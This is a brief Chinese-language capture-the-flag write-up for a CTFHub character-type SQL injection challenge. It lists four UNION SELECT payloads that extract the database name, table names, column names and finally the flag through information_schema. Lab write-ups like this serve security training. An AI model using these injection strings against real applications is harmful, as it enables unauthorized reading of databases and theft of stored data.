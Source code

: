 ## 成绩单

**分类：**SQL注入 — 字符型

## write-up

对于这道挑战，我们输入正确的id，可以返回正确的信息。之后我们使用了单引号测试。确实存在SQL注入。第一步猜解字段数，总共有4个。

- 查询数据库名:

`id=-1' union select 1,database(),3,4#`

- 查询表名:

`id=-1' union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='ctfhub'#`

- 查询字段名:

`id=-1' union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='fl4g'#`

- 查询内容:

`id=-1' union select 1,ctfhub_flag,3,4 from fl4g#`





